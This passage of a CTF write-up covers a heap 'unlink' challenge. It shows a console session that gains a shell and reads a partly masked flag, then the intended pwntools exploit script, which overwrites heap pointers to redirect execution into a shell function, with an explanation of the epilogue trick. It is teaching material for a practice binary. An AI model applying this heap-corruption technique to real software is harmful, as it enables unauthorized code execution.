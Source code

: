After pressing Ctrl-D the payload is sent to the input and we get access to a shell.

```console
unlink@ubuntu:~$ (cat -; cat /tmp/mypayload; cat -) | ./unlink
here is stack address leak: 0xffb3dbb4
here is heap address leak: 0x87fe410
now that you have leaks, get shell!
cat flag
conditional_*****_what_*****_from_******_explo1t
```


*NOTE: Probably you noticed a weird `malloc(1024);` in the code. This is not
just a case: after our exploit the `esp` register will point into the heap,
that big malloc is there to make sure that we have enough allocated space on
the heap (which will be our new stack) to execute the function `shell`.*

### Intended solution


Once got a privileged shell we can read the intended solution.
The script below uses [pwntools](https://docs.pwntools.com/en/stable/about.html#module-pwn),
a very practical exploitation framework written in python.

```python
from pwn import *
context.arch = 'i386'         # i386 / arm
r = process(['/home/unlink/unlink'])
leak = r.recvuntil('shell!\n')
stack = int(leak.split('leak: 0x')[1][:8], 16)
heap = int(leak.split('leak: 0x')[2][:8], 16)
shell = 0x80484eb
payload = pack(shell)         # heap + 8  (new ret addr)
payload += pack(heap + 12)    # heap + 12 (this -4 becomes ESP at ret)
payload += '3333'             # heap + 16
payload += '4444'
payload += pack(stack - 0x20) # eax. (address of old ebp of unlink) -4
payload += pack(heap + 16)    # edx.
r.sendline( payload )
r.interactive()
```

The intended solution is a bit different from the one I described in this article.
It exploits the `leave` instruction at the end of the function `unlink`.
The address of the stored `ebp` minus 4 is written into `B->fd` so that the 
value of the stored `ebp` will be overwritten with the content of `B->fd`.
After the instruction `leave` the register `ebp` contains the address `heap + 16` 
, which written into `B->bk`.
Finally the epilogue of the function `main` will first load into `ecx` the
value at `heap + 12`, then it will load into `esp` the address of the 
function `shell` (`lea esp, [ecx - 4]`) so that `main` will return into `shell`.

